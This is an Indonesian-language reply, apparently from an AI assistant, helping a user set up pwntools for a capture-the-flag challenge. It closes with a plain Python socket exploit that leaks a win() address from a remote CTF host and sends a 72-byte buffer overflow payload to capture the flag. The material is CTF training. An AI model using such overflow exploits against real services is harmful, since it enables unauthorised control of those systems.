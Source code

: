 Tentu! Kalau kamu belum bisa install `pwntools` karena keterbatasan lingkungan, ada beberapa solusi tergantung sistem dan kondisimu. Aku jelaskan beberapa cara:

---

## 🛠️ 1. **Coba pakai Python Virtual Environment**

Kalau sistemmu tidak punya `pwntools` tapi bisa install Python packages, coba:

```bash
sudo apt update
sudo apt install python3 python3-pip python3-venv -y

# Buat virtual environment
python3 -m venv pwnenv
source pwnenv/bin/activate

# Install pwntools
pip install --upgrade pip
pip install pwntools
```

> Kalau berhasil, jalankan semua script eksploitasi dalam venv ini: `source pwnenv/bin/activate`

(below this are unnecessary)
---

## 🧪 2. **Coba di Docker (lebih bersih dan portable)**

Kalau bisa pakai Docker:

```bash
sudo apt install docker.io -y
sudo docker run -it --rm --name pwnbox -v $(pwd):/ctf --workdir /ctf python:3.10 bash

# Di dalam container:
pip install pwntools
```

> Semua script bisa kamu taruh di folder lokal (`$(pwd)`), dan akan muncul di `/ctf` dalam container.

---

## 🔧 3. **Coba manual tanpa pwntools (pakai Python + `socket`)**

Kalau benar-benar tidak bisa install apa pun, kamu masih bisa eksploitasi pakai script Python dasar:

```python
import socket
import time
import struct

def p64(val):
    return struct.pack("<Q", val)  # little-endian 64-bit

s = socket.create_connection(("moklet-sec.site", 10000))

def recv_until(prompt):
    data = b""
    while not data.endswith(prompt):
        data += s.recv(1)
    return data

# Step 1: kirim 'leboy' dan ambil alamat win()
recv_until(b"ask yobel : ")
s.send(b"leboy\n")
leak_line = s.recv(1024).decode()
print("[+] Leak line:", leak_line)
win_addr = int(leak_line.strip(), 16)
print("[+] Win address:", hex(win_addr))

# Step 2: quit dan konfirmasi
recv_until(b"ask yobel : ")
s.send(b"quit\n")
recv_until(b"are you sure Y/N?")
s.send(b"Y\n")

# Step 3: exploit dengan payload overflow
recv_until(b"kata kata sebelum solve bang : ")
payload = b"A" * 72 + p64(win_addr)
s.send(payload + b"\n")

# Step 4: baca output (semoga flag!)
while True:
    try:
        print(s.recv(4096).decode(), end="")
    except:
        break

s.close()
```

> Script ini adalah versi **tanpa pwntools**, pakai `socket` dan `struct` biasa. Tetap bisa jalan asal tahu offset overflow-nya.

---

Kalau kamu pakai distro Linux, distro dan versi berapa? Mungkin aku bisa bantu lebih spesifik untuk setup.

